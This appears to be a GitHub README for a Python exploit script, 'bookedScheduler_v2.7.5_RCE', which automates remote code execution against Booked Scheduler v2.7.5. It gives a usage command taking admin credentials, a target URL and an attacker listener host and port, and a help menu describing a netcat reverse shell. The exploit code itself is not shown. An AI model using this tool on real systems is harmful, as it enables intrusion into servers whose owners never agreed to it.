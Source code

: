 # bookedScheduler_v2.7.5_RCE
Automatic exploitation script written in python 3 to exploit "Book Scheduler v2.7.5"

<hr>

#### 1. Basic Usage: 
`$ python3 booked_sheduler.py --url http://127.0.0.1 -u <admin> -p <adminpass> -P <pentesterPort> -H <pentesterIP>`

#### 2. Help Menu:
```txt
usage: booked_scheduler.py [-h] [--url URL] [-u USER] [-p PASSWORD] [-P LPORT] [-H LHOST]

--- Booked Scheduler v2.7.5 ---

optional arguments:
  -h, --help            show this help message and exit
  --url URL             url (i.e http://192.168.167.64/booked/Web)
  -u USER, --user USER  ADMIN user
  -p PASSWORD, --password PASSWORD
                        ADMIN password
  -P LPORT, --lport LPORT
                        Netcat's port to catch reverse shell
  -H LHOST, --lhost LHOST
                        Netcat's host to catch reverse shell
```
